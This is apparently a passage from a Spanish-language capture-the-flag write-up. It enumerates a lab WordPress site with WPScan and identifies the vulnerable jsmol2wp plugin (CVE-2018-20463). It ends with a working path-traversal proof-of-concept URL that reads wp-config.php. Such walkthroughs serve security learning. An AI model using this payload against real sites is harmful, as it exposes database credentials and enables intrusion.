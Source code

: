 ```bash
 | [!] Directory listing is enabled
 | Style URL: http://www.smol.thm/wp-content/themes/twentytwentythree/style.css
 | Style Name: Twenty Twenty-Three
 | Style URI: https://wordpress.org/themes/twentytwentythree
 | Description: Twenty Twenty-Three is designed to take advantage of the new design tools introduced in WordPress 6....
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://www.smol.thm/wp-content/themes/twentytwentythree/style.css, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] jsmol2wp
 | Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/
 | Latest Version: 1.07 (up to date)
 | Last Updated: 2018-03-09T10:28:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.07 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
```

Vemos que ha detectado un plugin y si buscamos vulnerabilidades sobre el mismo encontramos [CVE-2018-20463](https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611/).

Se trata de una vulnerabilidad que nos permite leer archivos del sistema a través de path traversal así como realizar SSRF.


Probamos el siguiente PoC `http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php`.
